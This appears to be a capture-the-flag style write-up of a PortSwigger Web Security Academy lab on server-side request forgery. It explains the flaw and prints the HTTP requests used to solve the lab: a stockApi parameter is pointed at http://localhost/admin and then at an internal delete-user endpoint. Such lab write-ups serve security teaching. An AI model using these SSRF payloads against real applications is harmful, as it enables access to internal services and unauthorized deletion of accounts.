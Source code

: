 # SSRF 
Server side request forgery.

SSRF vulnerabilities let an attacker send crafted requests from the back-end server of a vulnerable application. Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network. An attacker may also leverage SSRF to access services available through the loopback interface (127.0.0.1) of the exploited server.

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems, potentially leaking sensitive data such as authorization credentials.


## Testing Scenarios
Captured HTTP request from a feature and looks like this
```http
POST /product/stock HTTP/1.1
Host: acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Cookie: session=8ILzaLhOEAeIJVoGjLsw13pyOB4ujzvX
Content-Length: 54
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http://lab.checkavailability

```

In the last section `stockapi` we changed it to
```http
POST /product/stock HTTP/1.1
Host: acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Cookie: session=8ILzaLhOEAeIJVoGjLsw13pyOB4ujzvX
Content-Length: 54
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http://localhost/admin
```
we got admin page.

our goal is to delete user carlos.
request captured to delete carlos.
```http
GET /admin/delete?username=carlos HTTP/1.1
Host: acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Cookie: session=8ILzaLhOEAeIJVoGjLsw13pyOB4ujzvX
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net/product/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

We have an idea about how API working in this scenario.
 we can't delete directly from admin page.
 instead we can use advantage of stockapi
 ```http
POST /product/stock HTTP/1.1
Host: acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Cookie: session=8ILzaLhOEAeIJVoGjLsw13pyOB4ujzvX
Content-Length: 54
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://acf21f4e1f6abc41c0ac806b00dc00d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

stockApi=http://localhost/admin/delete?username=carlos
```
Now we are done.